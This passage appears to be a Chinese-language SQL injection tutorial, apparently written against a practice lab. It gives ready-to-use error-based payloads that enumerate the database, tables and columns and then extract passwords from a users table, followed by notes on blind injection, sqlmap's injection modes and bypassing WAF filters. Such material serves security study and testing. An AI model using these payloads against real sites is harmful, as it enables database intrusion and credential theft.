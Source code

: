 ```shell
http://test
?id=2' and (select 1 from (select count(*),concat(((select concat(database(),';'))),floor (rand(0)*2))x from information_schema.tables group by x)a) -- -
```

2. 当前数据库的表

```shell
http://test
?id=2' and (select 1 from (select count(*),concat(((select concat(table_name,';') from information_schema.tables where table_schema='security' limit 0,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) -- -
```

3. 列名

```shell
http://test
?id=2' and (select 1 from (select count(*),concat(((select concat(column_name,';') from information_schema.columns where table_name='users' limit 5,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) -- -
```

4. 报字段

```shell
http://test
?id=2' and (select 1 from (select count(*),concat(((select concat(password,';') from users limit 0,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) -- -
```

# 0x06 盲注：
Tips：预编译可以防止一定范围内的sql注入

# 0x07 Sqlmap的使用：
支持五种不同的注入模式：

l 基于布尔的盲注，即可以根据返回页面判断条件真假的注入；

l 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；

l 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；

l 联合查询注入，可以使用union的情况下的注入；

l 堆查询注入，可以同时执行多条语句的执行时的注入。





如果屏蔽单引号双引号该如何进行联合注入呢？

如果屏蔽了函数该如何进行注入呢？



使用内联注释和‘\’转义绕过waf

